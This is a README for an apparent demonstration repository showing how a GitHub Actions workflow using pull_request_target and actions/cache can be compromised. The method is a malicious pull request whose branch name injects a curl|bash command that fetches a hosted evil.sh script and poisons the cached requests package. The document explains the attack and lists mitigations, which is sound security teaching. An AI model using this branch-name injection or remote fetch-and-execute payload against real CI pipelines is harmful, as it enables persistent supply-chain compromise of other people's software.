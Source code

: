 ## README

### Overview

This repository demonstrates how a GitHub Actions pipeline can be compromised through a malicious pull request that abuses `pull_request_target` and caching. Specifically, an attacker can run their own code in the CI environment and poison the `.pip-cache`, causing future builds to print "You are hacked!" without any further attacker involvement.

**Key points:**

- The pipeline uses `pull_request_target`.
- The workflow uses `actions/cache` to store Python dependencies in `.pip-cache`.
- The attacker’s malicious code, hosted externally, modifies the cached `requests` dependency to print "You are hacked!" whenever `requests` is imported.
- After poisoning the cache, subsequent main branch builds restore the maliciously altered dependencies and display the hacked message.

### The Attacker’s Payload

The attacker hosts a malicious script (`evil.sh`) externally. The provided script is available at:

```
https://gist.githubusercontent.com/colek42/0a6254d21b98e7a437d568126e1d261c/raw/ec71ca09b8f0bede20547679315f5213c638d444/evil.sh
```

**What `evil.sh` Does:**

1. It locates the `requests` package in `.pip-cache`.
2. It prepends a `print("You are hacked!")` statement to `requests/__init__.py`.
3. This ensures that any future import of `requests` will display the hacked message.

### The Malicious Branch Name

To run `evil.sh`, the attacker crafts a PR from a branch name that executes a `curl|bash` payload. For example:

```
$({curl,-sSfL,https://gist.githubusercontent.com/colek42/0a6254d21b98e7a437d568126e1d261c/raw/ec71ca09b8f0bede20547679315f5213c638d444/evil.sh}|bash)
```

When the CI workflow encounters `git pull origin $branch`, it substitutes this malicious branch name, thus fetching and executing `evil.sh` during the `pull_request_target` event.

### Steps to Reproduce (High-Level)

1. **Initial Setup:**
   - You set up this repository with a simple Python application in `src/`.
   - `requirements.txt` includes `requests`.
   - The `ci.yml` workflow uses `pull_request_target` and `actions/cache`.

2. **Initial Run:**
   - On push to `main`, the workflow runs, installs `requests`, and caches it.  
   - `python src/main.py` prints “Hello, world!” normally.

3. **Attacker’s PR:**
   - The attacker creates a PR from a maliciously named branch as described.
   - The CI runs `pull_request_target`, executes `git pull origin $branch`, and thus runs `evil.sh`.
   - `evil.sh` poisons `.pip-cache` by modifying `requests/__init__.py` to print “You are hacked!”.

4. **After the Attack:**
   - Merging the PR or simply triggering another run on `main` restores the now-poisoned cache.
   - `requests` is imported again, but this time it prints “You are hacked!” before returning.

### Observing the Result

After the cache is poisoned, any new run on `main` that imports `requests` will display:

```
You are hacked!
Hello, world!
```

This shows the persistent compromise carried forward by the cached dependencies.

### Cleanup and Mitigation

- To reset the environment, modify `requirements.txt` (e.g., add a blank line) to change the cache key and force a fresh dependency install.  
- Remove or avoid `pull_request_target` for untrusted code.  
- Validate file integrity or use supply chain security tools (like Witness) to detect unexpected modifications.
